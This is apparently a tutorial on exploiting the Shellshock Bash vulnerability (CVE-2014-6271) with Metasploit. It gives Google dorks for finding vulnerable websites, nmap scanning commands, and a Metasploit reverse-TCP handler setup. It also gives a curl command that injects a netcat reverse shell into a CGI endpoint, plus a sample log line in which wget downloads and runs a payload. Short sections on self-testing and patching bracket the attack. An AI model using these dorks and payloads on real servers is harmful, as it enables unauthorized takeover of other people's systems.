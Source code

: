 ## Exploit Shellshock Vulnerability CVE 2014-6271 using Metasploit

A recent study from July 2019 shows that the security vulnerability called **ShellShock** CVE-2014-6271 discovered in 2014 would still be present on a large number of servers in the world although patch have been created since several years. An attacker could use this flaw to override or bypass environment restrictions to execute shell commands. Certain services and applications allow remote unauthenticated attackers to provide environment variables, allowing them to exploit this issue.

**Shellshock**, also known as **Bashdoor**, is a family of security bugs in the widely used Unix Bash shell, the first of which was disclosed on 24 September 2014\. Many Internet-facing services, such as some web server deployments, use Bash to process certain requests, allowing an attacker to cause vulnerable versions of Bash to execute arbitrary commands. This can allow an attacker to gain unauthorized access to a computer system.

GNU Bash through 4.3 processes trailing strings after function definitions in the values of environment variables, which allows remote attackers to execute arbitrary code via a crafted environment, as demonstrated by vectors involving the **ForceCommand** feature in **OpenSSH** sshd, the **mod_cgi** and **mod_cgid** modules in the **Apache HTTP Server**, scripts executed by unspecified **DHCP clients**, and other situations in which setting the environment occurs across a privilege boundary from Bash execution, aka “ShellShock”.

**Source:** [cve.mitre.org](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2014-6271)

* * *

###### ANATOMY OF THE ATTACK

**Test your environment**

Just run this bash script in your system and you will see if you are vulnerable or not:

```none
env 'VAR=() { :;}; echo Bash is vulnerable!' 'FUNCTION()=() { :;}; echo Bash is vulnerable!' bash -c "echo Bash Test"
```

**Can I detect if someone has exploited this against me?**

We would recommend reviewing your HTTP logs and check if there is anything suspicious. An example of a malicious pattern:

```none
192.168.1.1 – – [25/Sep/2014:14:00:00 +0000] "GET / HTTP/1.0"  400 349 "() { :; }; wget -O /tmp/besh http://192.168.1.1/filename; chmod 777 /tmp/besh; /tmp/besh;"
```

There are also some patches for bash that log every command that is being passed to the bash interpreter. This is a good way to see if someone has exploited your machine. It won’t prevent someone from exploiting this vulnerability, but it will log the attackers actions on the system.

**How serious is the threat?**

This bug is very dangerous indeed, but not **EVERY** system is vulnerable. Special conditions must be met for a web server to be exploited. One of the biggest problems now is that when patches are published, researchers will look for other ways to exploit bash, explore different conditions that enable it to be exploited, etc. So a patch that helps prevent remote code execution can’t do anything against, for example, a file overwrite. So there will probably be a series of patches and in the meantime systems are still vulnerable.

* * *

###### GOOGLE DORK

There is no doubt that there are thousand and one ways to find vulnerable targets for this type of attack. In order to cut short, we are going to use a non-exhaustive list of Google Dork to demonstrate how it's easy for a blackhat to build a list of potential vulnerable websites.

```none
sitemap.xml filetype:xml intext:"cgi-bin"
filetype:sh inurl:cgi-bin
filetype:sh
intext:cgi-bin
intitle:apache "cgi-bin"
inurl:cgi-bin
inurl:wspd_cgi.sh
inurl:wslb.sh
inurl:"server-status" intitle:apache "cgi-bin"
inurl:cgi-bin "GATEWAY_INTERFACE = CGI"
inurl:cgi-bin inurl:printenv intext:SERVER_ADDR
```

* * *

###### VULNERABILITY ANALYSIS

In order to detect the vulnerability, we can use **nmap**. To detect this vulnerability the script **http-shellshock** executes a command that prints a random string and then attempts to find it inside the response body. Web apps that don't print back information won't be detected with this method.

```bash
nmap -sV -p- --script http-shellshock <target>
nmap -sV -p- --script http-shellshock --script-args uri=/cgi-bin/bin,cmd=ls <target>
```

**Output**

```none
PORT   STATE SERVICE REASON
80/tcp open  http    syn-ack
| http-shellshock:
|   VULNERABLE:
|   HTTP Shellshock vulnerability
|     State: VULNERABLE (Exploitable)
|     IDs:  CVE:CVE-2014-6271
|       This web application might be affected by the vulnerability known as Shellshock. It seems the server
|       is executing commands injected via malicious HTTP headers.
|
|     Disclosure date: 2014-09-24
|     References:
|       http://www.openwall.com/lists/oss-security/2014/09/24/10
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-7169
|       http://seclists.org/oss-sec/2014/q3/685
|       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-6271
```

Once the vulnerability is discovered by the hacker, it can exploit it using Metasploit.

* * *

###### CREATE MSF SESSION

Once a potential flaw has been discovered in an environment, it can easily be exploited as demonstrated below. In order to open a session from our targeted website we will need to create an exploit multi-handler on our **Metasploit**. This can be done very quickly using the below commands.

```bash
# Open Metasploit
msfconsole

msf > use exploit/multi/handler
msf exploit(multi/handler) > set LHOST 0.0.0.0
msf exploit(multi/handler) > set LPORT 4444
msf exploit(multi/handler) > set PAYLOAD linux/x86/shell/reverse_tcp
msf exploit(multi/handler) > show options
```

**Output**

![image-1](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/00bbf7194c2d86d6fe89edf34e38d7be-1.png "Image-1")

On the above example we are using a Linux X86 Shell Reverse TCP payload, off course the type of payload shall be different if we are targeting a Windows machine.

* * *

###### EXPLOIT THE TARGET

We are now going to send our exploit in order to create a reverse shell using a bash terminal and forward the traffic through the MSF handler using TCP protocol.

**Bash Command**

```bash
# Replace "YOUR-IP" with your tunnel IP or host adddress
# Replace "YOUR-PORT" with the port you configured
curl -k -H 'User-Agent: () { :;}; /bin/bash -c "nc YOUR-IP YOUR-PORT -e /bin/sh"' http://localhost:8080/cgi-bin/vulnerable
```

You are done !! If your targeted website is vulnerable to CVE-2014-7169 exploit, a session will be created in your **Metasploit** allowing you to take over the targeted server.

* * *

###### HOW TO PROTECT YOURSELF FROM SHELLSHOCK VULNERABILITIES

The answer is simple: patch your system. If your system is not yet patched, you have no one to blame but yourself. This vulnerability has been out for years, and pretty much all systems have patches available. To cut short, the best way to protect yourself against this type of vulnerability is to keep your system up to date applying all the fixes released for this exploit.
